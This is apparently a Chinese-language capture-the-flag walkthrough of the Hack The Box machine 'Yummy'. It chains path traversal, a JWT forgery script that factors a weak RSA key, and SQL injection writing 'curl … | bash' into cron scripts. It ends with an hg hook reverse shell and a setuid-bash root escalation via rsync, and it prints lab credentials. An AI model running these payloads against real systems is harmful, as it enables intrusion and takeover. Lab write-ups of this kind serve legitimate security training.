## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Hard |

## Nmap

```
[root@kali] /home/kali/Yummy  
❯ nmap yummy.htb -sSCV -Pn -T4 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-23 16:55 CST
Nmap scan report for yummy.htb (10.10.11.36)
Host is up (0.095s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a2:ed:65:77:e9:c4:2f:13:49:19:b0:b8:09:eb:56:36 (ECDSA)
|_  256 bc:df:25:35:5c:97:24:f2:69:b4:ce:60:17:50:3c:f0 (ED25519)
80/tcp open  http    Caddy httpd
|_http-title: Yummy
|_http-server-header: Caddy
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.45 seconds
```

开放端口：`22`、`80`

## Dirsearch

```
[root@kali] /home/kali/Yummy  
❯ dirsearch -u yummy.htb -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                            
 (_||| _) (/_(_|| (_| )                                                                                                                                     
                                                                                                                                                            
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 220545

Output File: /home/kali/Yummy/reports/_yummy.htb/_24-12-23_16-33-48.txt

Target: http://yummy.htb/

[16:33:48] Starting:                                                                                                                                        
[16:33:50] 200 - 8KB - /register                                         
[16:33:50] 200 - 7KB - /login                                            
[16:33:52] 302 - 199B  - /logout  ->  /login                               
[16:33:55] 302 - 199B  - /dashboard  ->  /login                            
                                                                              
Task Completed                  
```

## DownloadBackups

进入网页先注册用户然后登录。

然后进入`BOOK A TABLE`，随便输入信息然后提交



然后回到`Dashborad`，有一个下载链接，使用`Burpsuite`进行抓包


第一个`GET`请求的`reminder`直接放行



如果遇到服务器报错500，需要重新抓包发送到repeater。

第二个包发送到`Repeater`，修改`URL`参数，可以读取`/etc/passwd`



并且在其中发现了两个存在的用户：`dev`、`qa`

并且能读到一些`Caddy`服务器的配置



但是没有其他的配置文件或者`SSH`密钥能够直接读取，但是读取**定时任务**的时候发现了一个类似于文件备份的脚本



读取这个`app_backup.sh`，发现目录下存在**源码备份文件**



直接下载这个文件

```
GET /export/../../../../../var/www/backupapp.zip HTTP/1.1
```

读取里面的`app.py`，发现**数据库密码**泄露

```
[root@kali] /home/kali/Yummy/opt/app  
❯ cat app.py               
from flask import Flask, request, send_file, render_template, redirect, url_for, flash, jsonify, make_response
import tempfile
import os
import shutil
from datetime import datetime, timedelta, timezone
from urllib.parse import quote
from ics import Calendar, Event
from middleware.verification import verify_token
from config import signature
import pymysql.cursors
from pymysql.constants import CLIENT
import jwt
import secrets
import hashlib

app = Flask(__name__, static_url_path='/static')
temp_dir = ''
app.secret_key = secrets.token_hex(32)

db_config = {
    'host': '127.0.0.1',
    'user': 'chef',
    'password': '3wDo7gSRZIwIHRxZ!',
    'database': 'yummy_db',
    'cursorclass': pymysql.cursors.DictCursor,
    'client_flag': CLIENT.MULTI_STATEMENTS

}

access_token = ''
................
................
```

## JWT Token

在`config`里发现了一个`RSA`密钥生成的脚本

```
#!/usr/bin/python3

from Crypto.PublicKey import RSA
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization
import sympy

# Generate RSA key pair
q = sympy.randprime(2**19, 2**20)
n = sympy.randprime(2**1023, 2**1024) * q
e = 65537
p = n // q
phi_n = (p - 1) * (q - 1)
d = pow(e, -1, phi_n)
key_data = {'n': n, 'e': e, 'd': d, 'p': p, 'q': q}
key = RSA.construct((key_data['n'], key_data['e'], key_data['d'], key_data['p'], key_data['q']))
private_key_bytes = key.export_key()

private_key = serialization.load_pem_private_key(
    private_key_bytes,
    password=None,
    backend=default_backend()
)
public_key = private_key.public_key()
```

将`JWTtoken`拿去解密可以看到在`Payload`中泄露了大整数n和e的数值



根据`**RSA**`算法可知，`p`和`q`是`n`的两个素因子，可以使用库函数对`n`进行分解，下面的完整的脚本

```
import base64
import json
import jwt
from Crypto.PublicKey import RSA
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization
import sympy

#enter your jwt token here
token = ""

js = json.loads(base64.b64decode( token.split(".")[1] + "===").decode())
n= int(js["jwk"]['n'])
p,q= list((sympy.factorint(n)).keys()) #divide n
e=65537
phi_n = (p-1)*(q-1)
d = pow(e, -1, phi_n)
key_data = {'n': n, 'e': e, 'd': d, 'p': p, 'q': q}
key = RSA.construct((key_data['n'], key_data['e'], key_data['d'], key_data['p'], key_data['q']))
private_key_bytes = key.export_key()

private_key = serialization.load_pem_private_key(
    private_key_bytes,
    password=None,
    backend=default_backend()
)
public_key = private_key.public_key()

data = jwt.decode(token,  public_key, algorithms=["RS256"] )
data["role"] = "administrator"

# Create  new admin token  
new_token = jwt.encode(data, private_key, algorithm="RS256")
print(new_token)
```

替换新的`Token`之后进入到了`admindashboard`

## SQL Injection

检查源码，在参数`order_query`中没有进行任何过滤

```
@app.route('/admindashboard', methods=['GET', 'POST'])
def admindashboard():
        validation = validate_login()
        if validation != "administrator":
            return redirect(url_for('login'))
 
        try:
            connection = pymysql.connect(**db_config)
            with connection.cursor() as cursor:
                sql = "SELECT * from appointments"
                cursor.execute(sql)
                connection.commit()
                appointments = cursor.fetchall()

                search_query = request.args.get('s', '')

                # added option to order the reservations
                order_query = request.args.get('o', '')

                sql = f"SELECT * FROM appointments WHERE appointment_email LIKE %s order by appointment_date {order_query}"
                cursor.execute(sql, ('%' + search_query + '%',))
                connection.commit()
                appointments = cursor.fetchall()
            connection.close()
```

并且通过`union`注入我发现存在**报错注入**的可能性



尝试使用`Extractvalue`报错引出`User`



```
http://yummy.htb/admindashboard?s=edu&o=ASC;select extractvalue(1,concat(0x5c,(select group_concat(column_name) from information_schema.columns where table_name='users')))
```



不过似乎并不能查到里面的`password`

数据库的`secure_file_priv`被设置为了空，不是`NULL`，可能存在**文件写入**`into outfile`



回到之前的**定时任务**，里面存在一个mysql的定时任务会执行一个`dbmonitor.sh`

通过任意文件下载得到`dbmonitor.sh`

```
#!/bin/bash

timestamp=$(/usr/bin/date)
service=mysql
response=$(/usr/bin/systemctl is-active mysql)

if [ "$response" != 'active' ]; then
    /usr/bin/echo "{\"status\": \"The database is down\", \"time\": \"$timestamp\"}" > /data/scripts/dbstatus.json
    /usr/bin/echo "$service is down, restarting!!!" | /usr/bin/mail -s "$service is down!!!" root
    latest_version=$(/usr/bin/ls -1 /data/scripts/fixer-v* 2>/dev/null | /usr/bin/sort -V | /usr/bin/tail -n 1)
    /bin/bash "$latest_version"
else
    if [ -f /data/scripts/dbstatus.json ]; then
        if grep -q "database is down" /data/scripts/dbstatus.json 2>/dev/null; then
            /usr/bin/echo "The database was down at $timestamp. Sending notification."
            /usr/bin/echo "$service was down at $timestamp but came back up." | /usr/bin/mail -s "$service was down!" root
            /usr/bin/rm -f /data/scripts/dbstatus.json
        else
            /usr/bin/rm -f /data/scripts/dbstatus.json
            /usr/bin/echo "The automation failed in some way, attempting to fix it."
            latest_version=$(/usr/bin/ls -1 /data/scripts/fixer-v* 2>/dev/null | /usr/bin/sort -V | /usr/bin/tail -n 1)
            /bin/bash "$latest_version"
        fi
    else
        /usr/bin/echo "Response is OK."
    fi
fi

[ -f dbstatus.json ] && /usr/bin/rm -f dbstatus.json
```

**MySQL 服务活跃时的处理**：

- 如果 MySQL 服务 **活跃**，且 `/data/scripts/dbstatus.json` 文件存在：
    - 如果 `dbstatus.json` 文件内容中包含 "database is down"，说明数据库之前出现过故障，发送恢复通知，并删除状态文件：

```
/usr/bin/echo "$service was down at $timestamp but came back up." | /usr/bin/mail -s "$service was down!" root
/usr/bin/rm -f /data/scripts/dbstatus.json
```

- 如果 `dbstatus.json` 文件内容未包含 "database is down"，则认为自动化过程失败，重新执行最新的修复脚本：

```
/usr/bin/echo "The automation failed in some way, attempting to fix it."
latest_version=$(/usr/bin/ls -1 /data/scripts/fixer-v* 2>/dev/null | /usr/bin/sort -V | /usr/bin/tail -n 1)
/bin/bash "$latest_version"
```

看到有一个`/data/scripts/fixer-v*`，由于这里存在一个**通配符**，并且配合我们之前猜测可以进行`Mysql`写入文件，可以尝试写入一个包含bash脚本的一个文件然后等待**定时任务**被执行，监听反弹`Shell`

```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
# You can also override PATH, but by default, newer versions inherit it from the environment
#PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root	cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6	* * 7	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6	1 * *	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
#
*/1 * * * * www-data /bin/bash /data/scripts/app_backup.sh
*/15 * * * * mysql /bin/bash /data/scripts/table_cleanup.sh
* * * * * mysql /bin/bash /data/scripts/dbmonitor.sh
```

在`/etc/crontab`中发现，`mysql`每一分钟会执行一次执行`dbmonitor.sh`

首先要写入`json`文件，然后再写入一个符合**正则匹配**的脚本

```
#1
select+"curl+10.10.xx.xx/rev.sh+|bash;"+INTO+OUTFILE++'/data/scripts/dbstatus.json'; 

#2
select+"curl+10.10.xx.xx/rev.sh+|bash;"+INTO+OUTFILE++'/data/scripts/fixer-v___';
```

## User

在**定时任务**里面可以注意到，除了`mysql`还有一个`www-data`的定时任务，因此可以将一个**反弹`Shell`**重命名为`app_backup.sh`等待`www-data`去执行

```
mysql@yummy:/data/scripts$ wget 10.10.xx.xx/rev2.sh

mysql@yummy:/data/scripts$ mv app_backup.sh app_backup_old.sh
mv app_backup.sh app_backup_old.sh
mysql@yummy:/data/scripts$ mv rev2.sh app_backup.sh
mv rev2.sh app_backup.sh
mysql@yummy:/data/scripts$ ls
ls
app_backup_old.sh
app_backup.sh
dbmonitor.sh
fixer-v1.0.1.sh
sqlappointments.sql
table_cleanup.sh
```

在`/var/www/app-qatesting/`目录下发现一个隐藏的文件夹`/.hg`

读取二进制文件`app.py.i`，发现泄露的密码



```
user: qa
password: jPAd!XQCtn8Oc@2B
```

`SSH`登录拿到`User.txt`



## Privilege Escalation

`Sudo -l`查看当前用户命令

```
qa@yummy:~$ sudo -l
Matching Defaults entries for qa on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User qa may run the following commands on localhost:
    (dev : dev) /usr/bin/hg pull /home/dev/app-production/
```

可以看到`qa`用户可以以`dev`身份进行**拉取仓库**

查看这个`hg`的**配置文件**

```
qa@yummy:~$ cat .hgrc
# example user config (see 'hg help config' for more info)
[ui]
# name and email, e.g.
# username = Jane Doe <jdoe@example.com>
username = qa
.....
.....
[trusted]
users = qa, dev
groups = qa, dev
```

可以添加一个`hook`，让执行完`pull`命令后自动执行一个脚本

```
[trusted]
users = qa, dev
groups = qa, dev

#add this
[hooks]
post-pull = /tmp/shell.sh
```

`shell.sh`的内容是：`bash -c 'bash -i >& /dev/tcp/10.10.xx.xx/500 0>&1'`

完整命令如下

```
qa@yummy:/tmp$ cd /tmp;mkdir .hg;chmod 777 .hg;cp /home/qa/.hgrc /tmp/.hg/hgrc
qa@yummy:/tmp$  sudo -u dev /usr/bin/hg pull /home/dev/app-production/
```

查看`dev`的命令权限

```
dev@yummy:/tmp$ sudo -l
sudo -l
Matching Defaults entries for dev on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User dev may run the following commands on localhost:
    (root : root) NOPASSWD: /usr/bin/rsync -a --exclude\=.hg /home/dev/app-production/* /opt/app/
```

这条命令使用 `rsync` 将 `/home/dev/app-production/` 目录下的所有文件（排除 `.hg` 目录）同步到 `/opt/app/` 目录。

`rsync`有一个参数`--chown`**改变文件或目录的所有者和所属组**。

先将`bash`赋值进`app-production`目录

```
dev@yummy:~$ cp /bin/bash /home/dev/app-production/bash
```

然后设置`bash`的启动方式以**文件的拥有者身份运行**，而不是当前用户的身份

```
dev@yummy:~/app-production$ chmod u+s /home/dev/app-production/bash
```

然后通过`chown`修改`/opt/app`目录为`root`的拥有权限

```
dev@yummy:~$ sudo /usr/bin/rsync -a --exclude=.hg /home/dev/app-production/* --chown root:root /opt/app/
```

然后`/opt/app`目录下开启一个新的`bash`



## Summary

`User`：下载链接存在**任意文件下载**，通过**定时任务**可以看到存在**定时备份**，泄露出网站目录下的备份文件名称。身份验证使用的是`JWT`，在`JWT Payload`的中泄露了RSA加密的参数，并且在备份源码中也发现了加密方式，修改脚本生成`Administrator`的`JWT Token`。进入到了`Admindashboard`，通过源码可知在`order by`处存在**报错注入**，没有可以读取的数据，可以写入一个文件通过定时任务执行反弹`Shell`，获取到`qa`用户。

`Root`：`qa`用户的特殊权限的命令中，可以写入hg的配置钩子，让执行完`Pull`命令后自动执行脚本，反弹得到`dev`的`Shell`。在`dev`的特殊权限的命令中可以**修改文件或者目录的所有者**，因此可以通过修改`bash`的所有者和启动方式，以`root`的身份启动`bash`。
